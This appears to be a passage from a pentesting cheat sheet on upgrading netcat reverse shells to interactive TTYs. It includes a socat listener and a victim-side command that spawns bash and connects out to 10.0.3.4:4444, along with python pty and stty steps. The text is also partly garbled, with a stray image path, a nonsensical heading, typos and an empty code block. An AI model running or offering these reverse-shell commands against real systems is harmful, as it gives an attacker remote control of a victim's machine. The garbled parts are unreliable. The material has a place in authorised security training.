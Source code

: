 - on the attacker's side, a reverse shell obtained through a `netcat` tunnel can be improved (see [ropnop.com](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) or [0xffsec.com](https://0xffsec.com/handbook/shells/full-tty/))
- simple alternative way to have an upgrade netcat reverse shell: use `rlwrap <netcat listener command>`
- instead of using `netcat` and "upgrade" the shell manually, `pwncat-cs` ([calebstewart/pwncat](https://github.com/calebstewart/pwncat)) can be used to obtain an even better reverse shell experience (especially with UNIX-like targets).
#### PENNylope reverse shell can be used.




https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/



`pty python`
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

`socat`
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
``
```bash

in reverse shell:
ctrl +Z
# In Kali
	styy -a
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols> (u get this from stty -a) 
#example:
stty rows 38 columns 116

```
# 2: Using socat

If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

